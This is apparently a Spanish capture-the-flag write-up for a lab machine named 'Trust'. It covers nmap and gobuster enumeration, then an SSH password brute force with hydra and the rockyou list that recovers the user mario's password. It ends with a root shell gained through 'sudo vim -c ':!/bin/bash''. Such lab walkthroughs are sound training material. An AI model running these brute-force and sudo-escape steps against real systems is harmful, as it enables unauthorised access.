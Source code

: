 # Trust

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

Como tenemos abiertos los puertos 22 y 80, vamos a comprobar las versiones y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHjaznpuQYsT/kxLXSVDFJGTtesV6UrUh5aNJhw+tAdr19MnZpuY/8e0gb+NXRebo5Dcv/DP1H+aLFHaS6+XCGw=
|   256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJW/dREGeklk/wsHXisOmbmVwP9zg7U8xS+OfHkxLF0Z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
No vemos nada que nos llame la atención así que empezaremos la enumeración del puerto 80, y como vemos que el título ya nos muestra que es la página principal de Apache por lo que lanzamos gobuster para ir haciendo fuzzing.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
- `dir`: Indica que se realizará un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo a escanear.
- `-w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`: Especifica la lista de palabras clave a utilizar para la búsqueda de directorios. En este caso, se utiliza el archivo "directory-list-2.3-medium.txt" como lista de palabras clave.
- `-x php,txt,html`: Especifica las extensiones de archivo a buscar dentro de los directorios encontrados. En este caso, se buscarán archivos con extensiones ".php", ".txt" y ".html".
- 
```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]

```


Encontramos una página que nos llama la atención, que es **/secret.php**.

En la página http://172.17.0.2/secret.php encontramos un mensaje de lo que podemos pensar que **Mario** podría ser un usuario. Como tenemos el puerto 22 abierto, podríamos probar la intrusión por fuerza bruta con hydra.

## Explotación.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l mario`: Especifica el nombre de usuario "mario" para el intento de inicio de sesión.
- `-P /usr/share/wordlists/rockyou.txt`: Especifica la ubicación del archivo de contraseñas a utilizar. En este caso, se utiliza el archivo "rockyou.txt" como lista de contraseñas.
- `ssh://172.17.0.2`: Indica el protocolo a utilizar (`ssh`) y la dirección IP del host objetivo (`172.17.0.2`). Esto establece el destino del intento de inicio de sesión mediante SSH.

Con hydra encontramos la contraseña para el usuario *mario* por el puerto 22.
```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-11 11:20:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-11 11:20:36
```

Nos conectamos por ssh como el usuario mario y tenemos acceso a la máquina.

```bash
ssh mario@172.17.0.2
```

```bash
❯ ssh mario@172.17.0.2

mario@172.17.0.2's password: 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@49a6455029e0:~$ 
```
## Escalada de privilegios.

Una vez dentro para escalar privilegios, vamos a probar si hay algún archivo que podamos ejecutar como mario pero con permisos de root.

```bash
sudo -l
```

```bash
mario@49a6455029e0:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 49a6455029e0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 49a6455029e0:
    (ALL) /usr/bin/vim
```

Encontramos que podemos ejecutar el editor de texto vim, y desde ahí se puede lanzar una bash con permiso privilegiado, poniendo :!/bin/bash.

```bash
sudo vim -c ':!/bin/bash'
```

Y con esto ya tenemos una consola como root.

```bash
root@49a6455029e0:/home/mario# whoami
root
```

